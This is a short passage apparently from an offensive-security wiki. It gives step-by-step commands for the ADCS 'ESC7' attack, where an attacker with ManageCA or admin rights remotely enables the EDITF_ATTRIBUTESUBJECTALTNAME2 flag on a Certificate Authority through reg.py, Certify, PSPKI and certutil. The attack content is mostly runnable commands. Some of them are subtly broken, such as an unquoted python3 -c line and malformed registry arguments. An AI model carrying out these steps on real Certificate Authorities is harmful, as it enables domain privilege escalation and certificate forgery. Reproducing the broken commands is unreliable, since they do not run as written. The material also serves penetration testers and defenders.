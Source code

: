 #### ESC7 - Exposing to ESC6

If sufficient rights are obtained over the Certificate Authority (`ManageCA`?, local admin account, ...) an attacker could remotely edit the registries, enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, restart the `CertSvc` service, and abuse [ESC6 (CA configuration abuse)](certificate-authority.md).

::: tabs

=== UNIX-like

The attack can be carried out from UNIX-like systems as follows.

```bash
# /!\ Beware: change placeholder values CA-NAME, VALUE, NEW_VALUE

# query flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags

# bitwise OR to set the flag if not already (nothing changed if already set)
python3 -c print("NEW_VALUE:", VALUE | 0x40000)

# write flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" add-keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags -vd NEW_VALUE
```


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to modify the CA object ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is run).

```powershell
Certify.exe cas

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI

# Get the current value of EDITF_ATTRIBUTESUBJECTALTNAME2 and modify it with SetConfigEntry
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.domain.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```
